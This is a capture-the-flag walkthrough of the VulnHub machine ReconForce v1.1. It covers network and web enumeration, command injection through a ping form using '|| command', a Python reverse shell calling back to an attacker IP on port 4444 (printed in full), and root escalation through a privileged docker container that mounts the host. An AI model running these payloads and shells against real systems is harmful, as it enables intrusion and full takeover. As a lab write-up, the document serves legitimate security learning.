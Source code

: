 # Walkthrough: [ReconForce v1.1](https://www.vulnhub.com/entry/hacknos-reconforce-v11,416/)

## Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Escelation](#escelation)
- [Bonus](#bonus)
	- [CLI](#cli)
	- [Intresting Files](#intresting-files)

## Enumeration
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14 `
	
- VM info: `nmap -A -T4 -v 192.168.0.14`
	
	* <pre>
	  21/tcp open  ftp     vsftpd 2.0.8 or later
	  22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
	  880/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	  </pre>
	* FTP **Anonymous** log-in is on. 
		* FTP Server Banner: "ftp 'Security@hackNos'"
	  
- Web Server Directory: `dirb -w http://192.168.0.14` 

	* <pre>
	  http://192.168.0.14/index.html
	  http://192.168.0.14/css/style.css
	  http://192.168.0.14/css/2.jpg
	  </pre>
	  
- Web Server 192.168.0.14/5ecure login using:

	* admin:Security@hackNos, FTP Server Banner

- Web Server Directory: `dirb -w http://192.168.0.14/5ecure`		
	* <pre>
	  http://192.168.0.14/5ecure/index.html, form that POSTs data to output.php
	  http://192.168.0.14/5ecure/css/style.css
	  http://192.168.0.14/5ecure/css/2.jpg
	  http://192.168.0.14/5ecure/output.php, simple ping <ip> function + stdout
	  </pre>

## Penetration
- 192.168.0.14/5ecure/out.php

	* `exec(ping $ip)`, possible shell injection 
	
- $ip = || command

	* '; command' / '&& command' / '& command' didn't work out, possible character escape 
	* Examples:
		* ip=|| ls, *system navigation*
		* ip=|| whoami, *www-data*
		* ip=|| vi *filename*, *privilege check*
		* ip=|| export	

- [intresting files](#intresting-files):

	* /var/opt/python.py, creates a connection to 192.168.0.104:4444 and runs an interactive shell
	* /etc/passwd, user information

## Escelation

- `ssh 192.168.0.14 -l recon`
	* pass: Security@hackNos
- `docker run -it --privileged --name=ctf -v /:/host:rw alpine sh`
- Container: `cd /host`

---

## Bonus

### CLI 
- Configurate host/attacking machine network settings
	* Add a new network connection and manualy set it up:
		- IP: 192.168.0.104
		- Netmask: 255.255.255.0
		- Gateway: 192.168.0.1
		- Connect to the network using the new interface
- `nc -lvp 4444` to initiate a listener on 4444
- On 192.168.0.14/5ecure/index.php ping scan, run '|| python /var/opt/python.py' 
- tty: `python -c 'import pty; pty.spawn("/bin/bash")'`
- `getent group`: 
	* `docker:x:119:`, passwd --> `recon:x:1000:119:rahul:/home/recon:/bin/bash`
	* recon user gid = docker 

### Intresting files

- /var/opt/python.py:
	```
	import socket
	import subprocess
	import os
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.104", 4444))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	p = subprocess.call(["/bin/bash", "-i"])
	```
	
- /var/etc:
	```
	root:x:0:0:root:/root:/bin/bash
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	recon:x:1000:119:rahul:/home/recon:/bin/bash
	ftp:x:111:117:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
	```
